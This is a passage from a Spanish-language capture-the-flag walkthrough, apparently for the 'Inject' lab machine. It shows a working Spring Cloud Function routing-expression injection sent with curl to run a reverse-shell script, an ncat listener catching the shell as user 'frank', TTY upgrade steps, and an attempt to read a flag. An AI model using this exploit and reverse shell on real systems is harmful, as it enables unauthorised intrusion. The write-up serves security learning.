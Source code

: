 Recibimos la petición en nuestro servicio.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.204 - - [19/Jul/2023 18:59:09] "GET / HTTP/1.1" 200 -
```

Ahora solo debemos ejecutarlo y ponermos en escucha con `ntcat`.


```bash
❯ curl -s -X POST "http://10.10.11.204:8080/functionRouter" -H 'spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash /tmp/reverse")' -d '.'
{"timestamp":"2023-07-19T19:05:11.598+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}#                        
```

Obtenemos acceso como el usuario `frank`.

```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.204.
Ncat: Connection from 10.10.11.204:60530.
bash: cannot set terminal process group (827): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ whoami
whoami
frank
```

Como siempre hacemos el tratamiento para obtener una full `tty`.

```bash
frank@inject:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
frank@inject:/$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
frank@inject:/$ export TERM=xterm
frank@inject:/$ export SHELL=bash
frank@inject:/$ stty rows 45 columns 184
```

Si ahora buscamos la flag y intentamos leerla vemos que no contamos con permisos.

```bash
frank@inject:/$ find / -name user.txt 2>/dev/null
/home/phil/user.txt
^C
frank@inject:/$ cat /home/phil/user.txt
cat: /home/phil/user.txt: Permission denied
```
